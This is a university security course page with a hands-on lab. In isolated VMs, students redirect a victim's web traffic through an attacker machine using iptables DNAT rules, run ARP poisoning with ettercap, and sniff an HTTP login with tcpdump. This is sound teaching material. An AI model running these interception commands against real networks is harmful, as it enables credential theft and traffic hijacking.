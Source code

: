 ```yaml
---
layout: default
course_number: CS497
title: "Lecture 5: Computer Networking"
---
```


# Lecture 5

- Network Security
- Basic Internet technology
- TCP/IP
- Network models and ARP security
- Spoofing, sniffing, session hijacking
- Denial-of-service botnets

### Reading 

- Introduction to Computer Security: Chapter 5

### Slides

- [Computer Networking](Ch05-NetworkModelsARP.pdf)

### In Class Exercise (part 1 - manual)
- Startup VirtualBox and create three (3) virtual machines. 
- One is used to host applications (server) and other virtual machines are for the victim and the attacker.
- Once the network setup is done, run ```ifconfig``` on all VMs and record the IP address for each VM. Take a screenshot.
- **Normal Scenario:**
  - Create a folder in *Server* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testserver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command 
  ```python -m SimpleHTTPServer```
  - Open a browser session in ```Victim’s``` VM and enter ```http://<server_ip_address>:8000/test.html``` in the URL bar. 
  - Observe that we get the expected response. Take a screenshot.
- **Victim to Attacker Link Scenario:**
  - Execute the following commands in ```Victim's``` VM and take a screenshot.
  ```
  sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 443 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination attacker_ip_address
  ```
  - Create a folder in *Attacker* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command ```python -m SimpleHTTPServer```
  - In ```Victim’s``` VM refresh the browser and observe that we get the expected response. Take a screenshot.
- **Attacker to Server Link Scenario:**
  - Execute the following commands in ```Attacker's``` VM and take a screenshot.
  ```
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A POSTROUTING -j MASQUERADE
  ```
  - Once above rules are in place, refresh the ```Victim’s``` browser and observe that we are getting the original response from the ```Server```. Take a screenshot. However, now all the traffic is routed through the ```Attacker’s``` network interface. 
  - Open up Wireshark in ```Attacker’s``` virtual machine (you might need to run Wireshark with sudo in order to get the interface list, if group permissions are not properly set). 
  - Select *enp0s3* as the interface and capture communication. *Interface name may vary.* 
  - Observe network traffic as you refresh the ```Victim's``` browser. Take a screenshot.
- To reset the iptables: ```sudo iptables -F```
- [iptables man pages](https://linux.die.net/man/8/iptables)

### In Class Exercise (part 2)
- In this exercise we will be using ettercap to perform ARP poisoning. Ettercap is a comprehensive suite for man in the middle attacks.
- You can install ettercap on your VM bu using -```sudo apt-get install ettercap-text-only```
- The goal of the second part of the lab is to sniff unsecured user authentication and to become familiar with ```tcpdump``` and ```ettercap```. ```tcpdump``` is a command lline network analyzer alternative to Wireshark. In this lab, we will only need the attacker and the victim (client) VM's to be running.
- ```ip r | grep default``` will provide you with indormation about the default gateway. 
- Extensive information aregarding ```tcpdump``` can be found [here](https://www.tcpdump.org/manpages/tcpdump.1.html) or by using the terminal ```man tcpdump```.

- **Steps**
1. From the attacker's VM, open a terminal window and start monitoring any ARP request and replies. Use the following command: ```sudo tcpdump -n -i <interface_name> arp```. Depending on the network traffic, you might begin see a few ARP requests for other machines.
2. Still from the attacker's VM, open a second terminal and start monitoring traffic between our victim and the rest of the Internet. Use the command: ```sudo tcpdump -n -i <interface_name> tcp and port 80 and host <victim_ip_address> -s0 -A -c 1000```. 
3. In a third terminal window enter the following command ```sudo ettercap -T -M ARP /<victim_ip_address>// /<router_ip_address>//```. This will ask ettercap to redirect packets from victim to server through your router first. It will then replay those packets on to the correct MAC address so that neither host notices that ettercap is stealing these packets.
4. On the Victim's VM open up firefox and navigate to [http://aavtrain.com/](http://aavtrain.com/).
5. Login to [http://aavtrain.com/](http://aavtrain.com/) with **fake** username and password. Record what you have used. 
6. Review the output from the second terminal on the attacker's VM. Can you find the sniffed HTTP username and password used to login into the website? If you cannot find the username and the password in the payload, feel free to use wireshark to point you to the right packet. Take a screenshots of the compromised data. 
7. Back to the victims VM's, using the browser navigate to [www.facebook.com](www.facebook.com) and try to sniff the user login information. Explain what happens and provide a brief explanation. 
8. Shutdown ettercap by pressing 'q'.

### Report 
- Screenshots from both parts of the lab along with any information you would like to share. 
- Awnser the following:
1. What were two things you learned from this lab?
2. Research and submit a link to a tool that we can install on our Linux machine to detect ARP poisoning.
